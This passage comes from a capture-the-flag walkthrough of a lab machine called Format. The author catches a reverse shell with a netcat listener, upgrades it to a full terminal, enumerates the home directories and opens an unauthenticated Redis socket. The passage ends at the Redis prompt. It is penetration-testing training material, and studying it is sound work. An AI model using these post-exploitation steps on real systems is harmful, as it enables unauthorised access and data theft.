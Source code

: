 

There's a connection:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.213 41734
    bash: cannot set terminal process group (609): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@format:~/microblog/oxdf/uploads$



I'll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@format:~/microblog/oxdf/uploads$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@format:~/microblog/oxdf/uploads$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@format:~/microblog/oxdf/uploads$



## Shell as cooper

### Enumeration

#### Home Directories

There are two home directories on the box, `cooper` and `git`:



    www-data@format:/home$ ls
    cooper  git



www-data is able to enter `cooper`, and `user.txt` is there, but
www-data can't read it.

#### Redis

I'll check out the Redis database. `redis-cli` is on the box, and `-s`
allows it to connect to a socket, where there's no other auth needed:



    www-data@format:~$ redis-cli -s /var/run/redis/redis.sock 
    redis /var/run/redis/redis.sock>
